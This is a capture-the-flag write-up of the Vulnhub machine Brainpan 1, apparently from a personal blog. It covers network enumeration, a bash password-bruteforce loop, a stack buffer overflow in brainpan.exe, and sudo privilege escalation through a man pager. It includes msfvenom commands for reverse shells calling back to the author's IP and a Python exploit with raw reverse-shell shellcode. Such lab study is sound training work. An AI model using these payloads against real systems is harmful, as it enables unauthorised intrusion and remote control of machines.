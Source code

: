 ```yaml
---
layout: post
title:  "Brainpan: 1 Write-Up"
categories: [write-ups]
permalink: /write-ups/brainpan_1_writeup/
---
```

Brainpan 1 is an intermediate OSCP-like machine hosted on Vulnhub which features a Windows x86 buffer overflow as the foothold.
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine.
![NetScan](netScan.png)
The IP of the target machine is 192.168.56.131, as .10 is my machine.
<br><br>
<h1>Port Scan</h1>
![PortScan](portScan.png)
This time there are two services listening in strange ports, so I used the default NSE scripts to gather more information about them.
![Port 9999 NSE](port9999NSE.png)
![Port 10000 NSE](port10000NSE.png)
Port 9999 has an unknown application which asks for a password, while port 10000 is a Python SimpleHTTPServer.
<h1>Port 10000 Enumeration</h1>
In the root page we get an image with some good coding practices.
![Root web page](rootPage.png)
I couldn't find anything interesting while enumerating manually, but Gobuster found a directory.
![Gobuster](gobuster.png)
The bin directory has directory listing enabled and from there we can download a Windows executable.
![Bin dir](binDirectory.png)
<h1>Brainpan.exe and Obtaining a Shell</h1>
Brainpan.exe is the program that is listening on port 9999 on the target machine.
![Exec brain 1](execBrain.png)
![Exec brain 2](execBrain2.png)
I attempted to bruteforce the password while I was examining the code using OllyDbg.
{% highlight bash %}for pass in $(cat test.txt)
do
        result=$(echo $pass | nc localhost 9999 | grep "ACCESS DENIED")
        if [ -z "$result" ]
        then
                echo $pass works!
                exit
        fi
done {% endhighlight %}
I found the password when I was reading the get_reply function (the string that was being passed as a parameter to strcmp), but using it didn't do anything. I also noticed that the program uses the strcpy function, which is unsafe.
![Olly Code](ollyDBGCode.png)
I used msf-pattern_create to generate a pattern with 1000 characters to test if the application would crash and then I used msf-pattern_offset to get the exact position.
![BOF Test 1](BOFTest1.png)
![BOF Test 2](BOFTest2.png) 
![BOF Test 3](BOFTest3.png)
To control the EIP register we need to send 524 junk bytes and the direction where we want to jump. I also found a function called winkwink with a "JMP esp" instruction at 0x311712F3, which means we can try to execute some shellcode (I should have checked the memory protections to see if NX was enabled, but I didn't know how to do this with OllyDbg and I didn't have a Windows VM prepared).<br>
I generated two shellcodes, one for Windows and the other one for Linux using msfvenom.
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.10 LPORT=1234 -f py -v shellcode -a x86 –platform Windows -b "\x00\x0a" #Windows shellcode
msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=192.168.56.10 -f py -v shellcode -a x86 –platform Linux -b "\x00\x0a" #Linux shellcode
{% endhighlight %}
At first the shellcode didn't execute properly, so I searched on the Internet and I found the NOP Sled technique, which consists in placing some NOP instructions before the shellcode to try to ensure that the shellcode will be executed completely. Using 16 NOPs (0x90) makes the shellcode work properly.
{% highlight python %}import struct
#Linux shellcode generated using msf-venom
shellcode =  b""
shellcode += b"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\x3d\xfb\x67"
shellcode += b"\x3e\x2b\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc"
shellcode += b"\x03\x65\xe8\x85\xcb\xa4\xd5\xbd\xd7\x95\xaa"
shellcode += b"\x12\x72\x1b\xa4\x74\x32\x7d\x7b\xf6\xa0\xd8"
shellcode += b"\x33\xc8\x0b\x5a\x7a\x4e\x6d\x32\xbd\x18\xb5"
shellcode += b"\xc8\x55\x5b\xc6\xc8\x77\xd2\x27\x60\x11\xb5"
shellcode += b"\xf6\xd3\x6d\x36\x70\x32\x5c\xb9\xd0\xdc\x31"
shellcode += b"\x95\xa7\x74\xa6\xc6\x68\xe6\x5f\x90\x94\xb4"                                                                                                         
shellcode += b"\xcc\x2b\xbb\x88\xf8\xe6\xbc"
#Junk bytes to fill the buffer
junk = 'A'*524
#Address of the JMP esp instruction
retAddr = struct.pack("<I",0x311712F3)
#Payload with 16 NOPs
print junk+retAddr+"\x90"*16+shellcode{% endhighlight %}
I used the Linux shellcode because I knew that the target machine was using Linux (and I already tested it in my machine).
![Remote shell 1](remoteShell1.png)
![Remote shell 2](remoteShell2.png)
<br>
<h1>PrivEsc to Root</h1>
Running sudo -l we can see that puck can run a script as root without suppling the password. This script has three functions (network, proclist and manual). The manual function runs the man command with the argument that we supply.
![Sudo -l](sudoPuck.png)
![Functions](functions.png)
The man command uses a pager to show the manual and this pager allows us to run commands (and even to get a shell). I won't explain the method but [I'll leave a link to it](https://gtfobins.github.io/gtfobins/man/).
![privesc](privesc.png)
<h1>Conclusions</h1>
This is a really fun and a bit difficult machine that helped me practising buffer overflow. I've learnt about the NOP sled technique and the importance of having a Windows VM to test programs in there (I'll work on this in the future).
